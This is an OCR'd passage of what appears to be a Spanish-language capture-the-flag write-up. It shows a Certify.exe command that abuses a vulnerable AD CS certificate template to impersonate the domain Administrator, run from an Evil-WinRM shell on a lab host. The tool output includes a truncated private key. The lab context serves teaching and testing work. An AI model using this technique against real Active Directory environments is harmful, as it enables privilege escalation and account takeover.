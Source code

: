 ```bash
certify.exe request /ca:<$certificateAuthorityHost> /template:<$vulnerableCertificateTemplateName> /altname:<$adUserToImpersonate>
```
- /ca - Especificamos el servidor de la Autoridad de Certificación al que enviamos la solicitud;
- /template - Especificamos la plantilla de certificado que debe utilizarse para generar el nuevo certificado;
- /altname - Especificamos el usuario AD para el que debe generarse el nuevo certificado.
```

```bash
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> .\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : sequel\Ryan.Cooper
[*] No subject name specified, using current context as subject.

[*] Template                : UserAuthentication
[*] Subject                 : CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] AltName                 : Administrator

[*] Certificate Authority   : dc.sequel.htb\sequel-DC-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 15

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAuQ0JwtjXqi8KxN4BpNub59Zm/VWwObmc7Fl81iWzpJR83hJf
oPJw5NeORh91QJ+mlu1jxUg0J291PAYFgvTnBu/FqxkB3bhzEYlZTHSp5ds5WqR3
jSlFOhVEE0UyAcmxBhxzZWGIvem/I3an3g23n02CQenEOTxlNlnYX0bZcYwbs/ao
DUak9oZxTDNk4mbp3H7jcdjnw29NnjCIbuq/2tocbL98p4Wn+9YHkmOMmUk38Wqg
2YQjbC60KBj9Ww+D1a8yNHyLXP3e7loC6zi7XUGjZeNhWb5x9yHXeFiGvsHvl9Ik
/6mqFa1yoclEPS696e74nqOTEyVXMQRkpKYiHQIDAQABAoIBAQCCkzSkDKaBK5iJ
ua2nSl8EhEE/2Ur0MIkOLUbtRMUyCKTjfkuEIg6PK5r02BXAd+bw8KlJ99z1RqyO
oiEZev3Z4y6zwH2UmiZ35VbhoCCSVNJvp0XEka6LgZ37iwPyRwNmsISssNnwSBPb
Tkq9YSiEfAjBwdX4HSm95D/NWwzsFSDxRJviQgwL5VOObtqmkaN3l96x2r1euL5d
5YYtnOvgZnnAjHTMG0KVSnQRXJvyoMDptGi5Tk6xRGj+rlLjVZv+D/zbg4Q0smWW
xHmTimYUm8nxDtO0G0Lakg31iKM9l8SHdDUoWexObVUhRjLePnMubjht8/W+Gr8M
7c/1QLTxAoGBAOxfL9gOT72pJ7Vytr1s0HUJgZ4rqFzDyAcFweOSbPY3VHsO2Swe
H+y4LEXKbva6PoasorF/jMCAW3aBARlyz7ge3I1MI+Q3bGp625lkRQ6IQsDhJLgq
jRRMVVEAkQSmPaDYji70jbtEKOA5WBeFPrNyPBfxNk6APfzg9KkFVEdnAoGBAMhq
3f2Bxu2aMzmadBQhnkip1BI5XFMlFhNL8w+p67ixFTfs3hHeI9FcQjqeY3ND7FvI
D92PjwvxuGP3QZmKW76VvZ0pAMRrTjb/Kbvg4FtqirqALdEMY51zxHv5ZHqCp9ux
u1U2cuiYHPF0iT5onNcXCPSVWtL3efU61+Heg2vbAoGBAND+ULU94i+V0vBSH1VZ
Uu9ImnyZqWFsEf5zjr2CiCkjPuUXednSQPPy2+JRXM92WTaGictbNb43P6eF5Mz1
gMgRMX0VZ16vyoJTYrs7tvtka3FTID5eESNzYrQeRhrQSglfsEfAH1kGqQWobkVN
oOTVCmE4+4VpSmW/GVQgzCXdAoGACvm3QHvL7hUkuwHXW4bfyTDruTfE85SzWckt
/WybyRiBhfeFzcqxgXSg997WqWhN2FTjcYm8FrZdF7RhtkvabFx87s9hCGCr/t0I
Zw6QmtEB2ebNG4anKec+Gl/0/bSMBr77+FWsA0rZQuvT3EQUWr8bMXHAcI828ZQQ
YIE0B0MCgYBMNfQ+9fiFnWALqU73ehVc0kPvJznmSXX0Z+XIHjbqpzQs9bQ7h6Wq
```